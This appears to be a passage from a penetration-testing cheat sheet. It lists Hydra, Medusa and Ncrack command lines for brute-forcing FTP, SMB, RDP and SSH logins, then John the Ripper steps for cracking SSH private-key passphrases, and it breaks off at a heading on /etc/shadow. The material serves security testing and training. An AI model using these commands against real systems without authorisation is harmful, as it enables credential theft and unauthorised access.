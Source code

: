 **FTP:**

```
hydra -l root -P passwords.txt ftp://example.com
```

**SMB:**

```
hydra -L users.txt -P passwords.txt smb://example.com
```

---

### Medusa Examples

**FTP:**

```
medusa -h example.com -u root -P passwords.txt -M ftp
```

**RDP:**

```
medusa -h example.com -u administrator -P passwords.txt -M rdp
```

---

### Ncrack Examples

**SSH:**

```
ncrack -p 22 -u admin -P rockyou.txt example.com
```

**RDP:**

```
ncrack -p 3389 -u administrator -P passwords.txt example.com
```

<div style="margin-top: 70px;"></div>

## Cracking Specific Files and Systems

This section shows how to crack passwords from different types of files and systems using John the Ripper. 

---
### Decrypting `id_rsa` SSH private keys


```
ssh2john id_rsa > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
john --show hash
```
---
### Decrypting passwords from `/etc/shadow`
